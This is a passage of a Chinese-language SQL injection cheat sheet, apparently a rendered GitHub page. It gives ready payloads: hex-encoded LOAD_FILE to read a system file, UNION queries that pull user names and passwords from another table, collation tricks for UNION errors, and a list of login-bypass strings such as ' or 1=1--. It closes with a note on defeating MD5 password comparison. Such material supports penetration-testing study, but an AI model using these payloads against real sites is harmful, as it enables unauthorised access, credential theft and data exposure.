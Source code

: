 ##### 基于 HEX 的注入实例

- `SELECT LOAD_FILE(0x633A5C626F6F742E696E69)` (M) 该语句展示的内容是 **c:\boot.ini**

#### 字符串修改相关

- `ASCII()` (SMP)
  返回字符串的 ASCII 码，在盲注中使用最多，例如：`SELECT ASCII('a')`
- `CHAR()` (SM)
  将数字转化为 ASCII 字符，例如：`SELECT CHAR(64)`

#### 联合查询

使用 union 可以跨表进行查询

```
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members
```

这条语句会返回两个表中的内容。 

另一个例子：

```
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```

#### UNION – 解决语言设置的问题

虽然利用 Union 注入有时会因为不同的语言设置（表设置，字段设置，组合表/数据库设置等）而出错，下面的这些功能可以解决这个问题，经常会在处理日语、俄语、西班牙语等应用程序时遇到。

- SQL Server (S)
  使用 `field` **COLLATE**`SQL_Latin1_General_Cp1254_CS_AS`，详细介绍可以看 sql server 的官方文档，例子：`SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members`
- MySQL (M)
  `Hex()`可以解决所有问题

#### 绕过登录认证 (SMO+) 

登录测试的万能密钥：

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- .... 
- 使用不同的用户登录 (SM*)  `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

老版本的 Mysql 不支持 Union 查询

#### 通过密码字段绕过登录系统

如果应用程序首先通过用户名获取记录，然后将返回的 MD5 与提供的密码的 MD5 进行比较，那么您需要一些额外的技巧来欺骗应用程序以绕过身份验证。您可以使用已知密码和提供密码的 MD5 哈希结果来测试。在这种情况下，应用程序将比较您的密码和您提供的 MD5 哈希，而不是数据库中的 MD5。
